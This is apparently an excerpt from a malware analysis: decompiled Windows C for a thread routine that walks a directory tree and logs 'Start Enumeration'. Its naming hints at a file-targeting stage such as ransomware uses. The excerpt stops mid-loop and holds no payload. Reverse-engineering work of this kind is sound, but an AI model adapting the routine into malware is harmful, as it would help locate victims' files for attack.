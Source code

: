
### Search file process

```
ULONG __stdcall StartAddress(const WCHAR *Parameter)
{
  WCHAR *v1; // esi
  HANDLE CurrentThread; // eax
  int (__stdcall *v3)(LPCWSTR); // edi
  SIZE_T v4; // esi
  int *v5; // esi
  int *v6; // eax
  WCHAR *v7; // esi
  const WCHAR *v8; // esi
  int v9; // esi
  SIZE_T v10; // esi
  WCHAR *i; // edi
  int **v12; // eax
  LPWSTR ExtensionW; // eax
  const WCHAR *v14; // edi
  const WCHAR *v15; // esi
  int v16; // esi
  SIZE_T v17; // edi
  WCHAR *j; // esi
  _DWORD *v19; // eax
  int v20; // ecx
  HANDLE v22; // [esp-Ch] [ebp-284h]
  void *v23; // [esp-4h] [ebp-27Ch]
  const WCHAR *lpString; // [esp+10h] [ebp-268h]
  int *v25; // [esp+14h] [ebp-264h] BYREF
  int **v26; // [esp+18h] [ebp-260h]
  LPVOID lpMem; // [esp+1Ch] [ebp-25Ch]
  int v28; // [esp+20h] [ebp-258h]
  HANDLE hFindFile; // [esp+24h] [ebp-254h]
  struct _WIN32_FIND_DATAW FindFileData; // [esp+28h] [ebp-250h] BYREF

  v1 = (WCHAR *)Parameter;
  if ( (GetFileAttributesW(Parameter) & 0x10) == 0 )
    goto LABEL_43;
  CurrentThread = GetCurrentThread();
  SetThreadPriority(CurrentThread, 2);
  v28 = dword_4308D0;
  v26 = &v25;
  v25 = (int *)&v25;
  sub_408990((int)L"Start Enumeration: %s", (int)Parameter);
  v3 = lstrlenW;
  while ( 2 )
  {
    v4 = 2 * v3(v1) + 16;
    for ( lpMem = HeapAlloc(hHeap, 8u, v4); !lpMem; lpMem = HeapAlloc(hHeap, 8u, v4) )
      Sleep(0x64u);
    v5 = (int *)lpMem;
    lstrcpyW((LPWSTR)lpMem + 4, Parameter);
    v6 = v25;
    *v5 = (int)v25;
    v5[1] = (int)&v25;
    v6[1] = (int)v5;
    v25 = v5;
    if ( v5 == (int *)&v25 )
      goto LABEL_40;
    do
    {
      v7 = (WCHAR *)(v5 + 2);
      lpString = v7;
```